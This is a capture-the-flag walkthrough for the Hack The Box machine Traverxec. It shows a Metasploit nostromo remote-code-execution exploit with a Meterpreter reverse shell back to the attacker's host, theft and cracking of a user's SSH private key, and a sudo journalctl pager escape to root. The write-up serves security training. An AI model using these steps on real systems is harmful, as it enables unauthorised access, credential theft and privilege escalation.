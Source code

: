 # Traverxec

<table>
  <tr>
    <td style="text-align:right;"><b>OS</b></td>
    <td>Linux</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>Difficulty</b></td>
    <td>Easy</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>Points</b></td>
    <td>20</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>Release</b></td>
    <td>16 Nov 2019</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>IP</b></td>
    <td>10.10.10.165</td>
  </tr>
</table>

## User

To begin, we will add the entry `10.10.10.165 traverxec.htb` to `/etc/hosts` and then start scanning.

```
# nmap -sC -sV traverxec.htb
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see that SSH and HTTP are open. If we try to browse to `http://traverxec.htb`, we are met by a simple placeholder website. Looking through the source code and other files downloaded, there isn't anything particularly interesting. We find the same dead end if we try to enumerate for potential directories and files. 

We will go back to the `nmap` scan for more information. One thing to notice is the HTTP server is not running with the standard apache but with nostromo v1.9.6.

### Exploitation

If we search for recent vulnerabilities for nostromo, we find CVE-2011-0751. While this vulnerability was originally meant for versions <=1.9.4, it turns out there is a variant of the same vulnerability for versions >=1.9.6.

If we search in Metasploit, we find a module for this vulnerability that also has support for >=1.9.6 versions.

```
msf5 > search nostromo

Matching Modules
================

   #  Name                                   Disclosure Date  Rank  Check  Description
   -  ----                                   ---------------  ----  -----  -----------
   0  exploit/multi/http/nostromo_code_exec  2019-10-20       good  Yes    Nostromo Directory Traversal Remote Command Execution
```

Let's now set up this exploit, check for compatibility, and exploit.

```
msf5 > use exploit/multi/http/nostromo_code_exec 
msf5 exploit(multi/http/nostromo_code_exec) > set RHOST traverxec.htb
RHOST => traverxec.htb
msf5 exploit(multi/http/nostromo_code_exec) > check
msf5 exploit(multi/http/nostromo_code_exec) > set target 1
target => 1
[*] 10.10.10.165:80 - The target appears to be vulnerable.
msf5 exploit(multi/http/nostromo_code_exec) > set LHOST 10.10.14.120
LHOST => 10.10.14.120
msf5 exploit(multi/http/nostromo_code_exec) > set LPORT 4444
LPORT => 44444
msf5 exploit(multi/http/nostromo_code_exec) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/http/nostromo_code_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.120:4444 
[*] Configuring Automatic (Linux Dropper) target
[*] Sending linux/x64/meterpreter/reverse_tcp command stager
[*] Sending stage (3021284 bytes) to 10.10.10.165
[*] Meterpreter session 1 opened (10.10.14.120:4444 -> 10.10.10.165:53586) at 2020-01-20 17:12:05 -0500
[*] Command Stager progress - 100.00% done (823/823 bytes)

meterpreter > 
```

Now that we have a meterpreter shell, we can look around the filesystem for interesting files.

### Information Gathering

```
meterpreter > ls -la /home
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40711/rwx--x--x  4096  dir   2020-01-20 17:06:10 -0500  david
```

We see that there is another user on the system, David. One peculiar thing to notice is that everyone can execute on his home directory, but they can't read or write. How does this make sense? While we cannot see the contents or read anything in the root of his home, we can change to a directory within if we know the name. There might be a way to determine the name of a directory within that has more normal permissions. 

Let's take a look again at the nostromo server. Normally we can expect web servers to host from `/var/www` but this one is from `/var/nostromo` indicating some custom configuration.

```
meterpreter > cd /var/nostromo/conf 
meterpreter > cat nhttpd.conf 
...
```

Looking at sample configuration files online and comparing to this, we see an interesting difference at the bottom.

```
# HOMEDIRS [OPTIONAL]

homedirs		    /home
homedirs_public		public_www
```

The homedirs functionality is usually commented out but here it is being used. Looking at the [nhttpd documentation](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd), we see that this enables us to view users' home directories by using `/~user`. If we go to `http://traverxec.htb/~david`, we see his private page.

![David's home](images/david.png)

From this page, we don't have a hint of what we can access now. On a normal web server, pages you can view are in a `public_html` directory. The `homedirs_public` constant suggests that this is how users host content from their home directories. In order to view a page in the browser, we would have to know its name, which we don't. However, since we know a directory now, we can `cd` into it from the terminal!

```
meterpreter > cd /home/david/public_www
meterpreter > ls
Listing: /home/david/public_www
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  402   fil   2019-10-25 15:45:10 -0400  index.html
40755/rwxr-xr-x   4096  dir   2019-10-25 17:02:59 -0400  protected-file-area

meterpreter > cd protected-file-area 
meterpreter > ls
Listing: /home/david/public_www/protected-file-area
===================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  45    fil   2019-10-25 15:46:01 -0400  .htaccess
100644/rw-r--r--  1915  fil   2019-10-25 17:02:59 -0400  backup-ssh-identity-files.tgz

meterpreter > 
```

We can now view some of the files in David's home and even find a backup file for his SSH credentials. If we extract these and crack them, we will be able to SSH as David and properly view his entire home directory.

### SSH

```
meterpreter > download backup-ssh-identity-files.tgz
[*] Downloading: backup-ssh-identity-files.tgz -> backup-ssh-identity-files.tgz
[*] Downloaded 1.87 KiB of 1.87 KiB (100.0%): backup-ssh-identity-files.tgz -> backup-ssh-identity-files.tgz
[*] download   : backup-ssh-identity-files.tgz -> backup-ssh-identity-files.tgz
```

```
# tar -xzvf backup-ssh-identity-files.tgz 
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```

Now that we have David's `ssh` directory, we can take his private key and crack the password that is encrypting it.

```
# ssh2john home/david/.ssh/id_rsa > hash.txt
# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (home/david/.ssh/id_rsa)
...
```

Now that we know the password for the private key is `hunter` and can SSH as David and get the flag.

```
# ssh -i home/david/.ssh/id_rsa david@traverxec.htb
Enter passphrase for key 'home/david/.ssh/id_rsa': 
...
david@traverxec:~$ cat user.txt 
7db0b4**************************
```

## Root

Now that we can see the full contents of David's home, we notice the interesting `bin` directory. In here, we see `server-stats.sh` which is a script and `server-stats.head` which is some formatting for the script output. Let's take a look at the script:

```bash
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

This script appears to be doing some stats and grabbing the latest 5 entries from `journalctl`. What stands out right away is that `journalctl` is being called as sudo. Since David can run this script, he must be able to run the individual command as well.

We can utilize [GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/) to take advantage of this and gain a root shell through `journalctl`. Once we call the command, the output will be displayed using `less` and the command will essentially be paused as root. From here, we can easily escape to a shell and get the flag.

```
$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
...
lines 1-6/6 (END)
!/bin/bash
root@traverxec:/home/david# id
uid=0(root) gid=0(root) groups=0(root)
root@traverxec:/home/david# cat /root/root.txt 
9aa36a**************************
```
